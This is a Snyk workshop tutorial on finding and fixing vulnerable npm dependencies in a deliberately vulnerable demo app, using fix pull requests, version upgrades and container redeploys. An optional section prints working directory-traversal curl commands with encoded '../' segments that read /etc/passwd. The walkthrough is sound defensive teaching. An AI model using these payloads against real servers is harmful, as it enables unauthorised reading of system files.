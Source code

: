```yaml
---
description: >-
  Now we'll find and fix vulnerabilities in the Open Source components that make
  up our application.
---
```


# Upgrade or patch vulnerable application dependencies

## Optional: The risks of vulnerable dependencies

To see an example of the risks a vulnerable open source component introduces to our running application, we're going to exploit one of those vulnerabilities. The `exploits` folder contains exploits for many of the vulnerable dependencies.

Let's execute an exploit against our running application. We'll demonstrate how the Directory Traversal vulnerability in the `st` package can lead to sensitive information leakage. Start by navigating to the exploits folder and sourcing the `st-exploits.sh` file.

```
cd exploits && source st-exploits.sh
```

This sets up a series of aliases to demonstrate the exploit. They are shown below:

```
st1="curl $GOOF_HOST/public/about.html"

# Directory listing (not necessary)
st2="curl $GOOF_HOST/public/"

# Failed ../
st3="curl $GOOF_HOST/public/../../../"

# Exploit start
st4="curl $GOOF_HOST/public/%2e%2e/%2e%2e/%2e%2e/"

# Exploit full
st5="curl $GOOF_HOST/public/%2e%2e/%2e%2e/%2E%2E/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

The good stuff is in `st4` and `st5`, where we see the leaked contents of the `/etc/passwd` file.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/st-exploit.png)

Yikes. And this is just one example. Feel free to play around with the other exploits in this folder, the sample application is **very** vulnerable (for now!).

## Start fixing Open Source Vulnerabilities!

In Snyk, this, and other vulnerabilities in our dependencies, are shown under the `package.json` file. Snyk accelerates fixes via Pull Requests to upgrade dependencies to non-vulnerable versions.

{% hint style="info" %}
Notice that the Dockerfile has less vulnerabilities! Snyk auto-retested it after our changes.
{% endhint %}

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/snyk-ossproject.png)

## Fix Vulnerabilities from the Snyk UI

### Step 1: Explore a vulnerability in more detail <a href="#step-1-explore-a-vulnerability-in-more-detail" id="step-1-explore-a-vulnerability-in-more-detail"></a>

Click into the `package.json` project, and Scroll down to see the list of vulnerabilities present, ordered by [our proprietary Priority Score](https://snyk.io/blog/snyk-priority-score/). For each Vulnerability, Snyk displays:

* The module that introduced it and, in the case of transitive dependencies, its direct dependency,
* Details on the path and proposed fixes, as well as the specific vulnerable function.

We'll start with the first vulnerability, **zip slip**, since it's ordered the highest. The exploit for zip-slip is also available in the `exploits` folder in case you want to try it out before patching it.

![](https://gblobscdn.gitbook.com/assets%2F-M3ww0VUnNWDc-FwnwVl%2F-MOHOD925AinvVslRYnk%2F-MOHQWZMgK6Br-LeO6xL%2FSnyk-Vuln.png?alt=media\&token=42d70198-322b-463e-b107-f54c12072ec7)

### Step 2: Create a Fix Pull Request in Snyk <a href="#step-2-create-a-fix-pull-request-in-snyk" id="step-2-create-a-fix-pull-request-in-snyk"></a>

Since a fix is available, Snyk can automatically upgrade the vulnerable dependency to a non-vulnerable version through a Pull Request. Click on "Fix this vulnerability" to do so.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/snyk-fixvuln.png)

On the next screen, you'll be able to confirm the issue to fix with this PR.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/snyk-fixpropen.png)

Looks good! Go ahead and open the PR. Once it's ready, you'll be taken to the PR in GitHub, where you can review the changes in the file diff view:

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/gh-prdiff.png)

Now, go ahead and merge the PR! Back in Snyk, we can appreciate that our `package.json` file has 1 less High Severity Vulnerability.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/snyk-postfixpr.png)

If you tried the zip-slip exploit, `git pull` the code to bring your local copy up to date with GitHub and try the exploit again. You'll notice it no longer works.

## Fix Vulnerabilities locally with Snyk

Fix Pull Requests are great for fixing individual vulnerabilities, and Snyk can [automatically open Pull Requests](https://support.snyk.io/hc/en-us/articles/360006581898-Upgrading-dependencies-with-automatic-PRs) when new fixes to vulnerabilities are published. You can also fix vulnerabilities manually.

Using the `st` package exploit demonstrated above. Find the `Directory Traversal` vulnerability by looking through the list of issues in Snyk. See that updating `st` to version `0.2.5` fixes this issue.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/snyk-fixstvuln.png)

Make this change in your package.json file.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/st-fixvuln.png)

To ensure this isn't exploitable, re-build and re-deploy the container to Kubernetes.

```
# Build the new image
docker build $DockerId/goof:dev .

# Push to Docker Hub
docker push $DockerId/goof:dev

# Scale the deployment down and up
kubectl scale deployment goof --replicas=0
kubectl scale deployment goof --replicas=1
```

Now try the exploit again. It should fail spectacularly.

![](https://partner-workshop-assets.s3.us-east-2.amazonaws.com/post-stfix.png)

## Optional: Use what you learned to fix all vulnerabilities

Either with Fix Pull Requests, or using the information in Snyk to modify your package manager manifest, continue fixing vulnerabilities until you've knocked out the High Severity Vulnerabilities that have a fix available.

Snyk IDE Plugins can help. If you're using JetBrains IDEs, Eclipse, or VS Code, check out the [Snyk plugins](../../../../../integrate-with-snyk/ide-tools/) that show vulnerability and fix information right within the IDE.

Once you're ready, continue on to the next section to learn how to fix configuration issues in the Kubernetes manifests that deploy the application!
